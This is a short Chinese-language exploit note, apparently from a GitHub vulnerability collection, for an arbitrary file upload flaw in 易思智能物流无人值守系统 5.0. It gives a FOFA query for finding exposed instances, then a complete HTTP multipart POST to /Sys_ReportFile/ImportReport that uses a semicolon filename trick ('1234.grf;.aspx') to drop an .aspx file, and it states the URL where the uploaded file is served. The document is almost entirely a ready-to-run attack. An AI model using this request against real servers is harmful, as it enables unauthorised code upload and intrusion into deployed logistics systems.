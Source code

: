 ## 易思智能物流无人值守系统5.0存在任意文件上传漏洞

## fofa
```
"智能物流无人值守系统"
```

## exp
```
POST /Sys_ReportFile/ImportReport?encode=717132 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 199
Content-Type: multipart/form-data; boundary=59d3d0b126080d21572c9e7a77d89931

--59d3d0b126080d21572c9e7a77d89931
Content-Disposition: form-data; name="file"; filename="1234.grf;.aspx"
Content-Type: application/octet-stream

304674859
--59d3d0b126080d21572c9e7a77d89931--
```

上传成功后，会返回路径 http://127.0.0.1/GRF/Custom/717132.aspx
